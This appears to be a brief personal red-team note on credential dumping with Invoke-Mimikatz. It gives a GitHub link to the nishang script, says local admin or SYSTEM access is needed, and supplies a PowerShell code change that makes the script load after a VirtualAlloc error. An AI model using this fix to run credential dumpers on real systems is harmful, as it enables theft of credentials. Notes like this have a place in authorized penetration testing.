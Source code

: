 NEEDS LOCAL ADMIN USER / SYSTEM ACCESS
![[9._Lateral Movement]]
This version seems to work better:
https://github.com/samratashok/nishang/raw/refs/heads/master/Gather/Invoke-Mimikatz.ps1
VirtualAlloc failed to allocate memory for PE. If PE is not ASLR compatible, try running
Change the following line:
```
$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress')
```
To
```
$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null);
```